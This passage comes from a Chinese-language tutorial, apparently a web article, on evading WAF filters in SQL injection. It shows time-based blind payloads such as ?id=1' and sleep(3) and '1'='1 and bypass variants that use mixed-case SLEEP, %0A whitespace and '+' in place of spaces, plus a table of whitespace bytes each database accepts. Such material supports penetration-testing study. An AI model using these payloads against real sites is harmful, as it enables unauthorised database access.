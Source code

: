 ```
?id=1' and sleep(3) and '1'='1?id=1' and SLEEP(3) and '1'='1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwoKrQkXCXQCYiaRMwU1sicgibdylru6E23Y0pHxqsejy4VnSNaibpN5DOVQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwWWiaCoMDMvHAPmsaic9ceRf9SOd7ZzxiaicZK2XYLKFHt39MY6op2XjnAA/640?wx_fmt=jpeg)

绕过 payload：

```
?id=1' and sleeP(3) and '1'='1?id=1' and slEeP(3) and '1'='1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgw9Zgx2cvINF6P4XLuu96VYxOg4chjWNWWCcXZG8I2N7avPJrzhT7FsA/640?wx_fmt=jpeg)

### 3. 空格过滤绕过

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwibWPFGtoJOruAVuibFL6PyFLnVhpnfyCrpiaBzbuwJ5YzB5lSKM3IgQsw/640?wx_fmt=jpeg)

部分 WAF 会对空格过滤，可使用空白符或者‘+’号替换空格进行绕过。

a)   使用空白符替换空格绕过

<table width="679"><thead><tr><th>数据库类型</th><th>允许的空白符</th></tr></thead><tbody><tr><td>SQLite3</td><td>0A，0D，0C，09，20</td></tr><tr><td>MySQL5</td><td>09，0A，0B，0C，0D，A0，20</td></tr><tr><td>PosgresSQL</td><td>0A，0D，0C，09，20</td></tr><tr><td>Oracle 11g</td><td>00，0A，0D，0C，09，20</td></tr><tr><td>MSSQL</td><td>01，02，03，04，05，06，07，08，09，0A，0B，0C，0D，0E，0F，10，11，12，13，14，15，16，17，18，19，1A，1B，1C，1D，1E，1F，20</td></tr></tbody></table>

正常 payload：

```
?id=1'and sleep(3) and '1'='1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwZrQx74LDZERPYL7RCXPvmNGDbiat4MX9HZqrIwVUYnlayRTMAwF9Twg/640?wx_fmt=jpeg)

空格被过滤，注入语句未成功插入。

绕过 payload：

```
?id=1'%0Aand%0Asleep(3)%0Aand%0A'1'='1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgw8TBv4xD2A7ibN6bNkscb5OtbsEYlDNLMqfRMh2NcibtTdzibwicI4ibqopA/640?wx_fmt=jpeg)

注入语句成功写入

b)  使用‘+’替换空格绕过

绕过 payload：

```
?id=1'+and+sleep(3)+and+'1'='1 
```
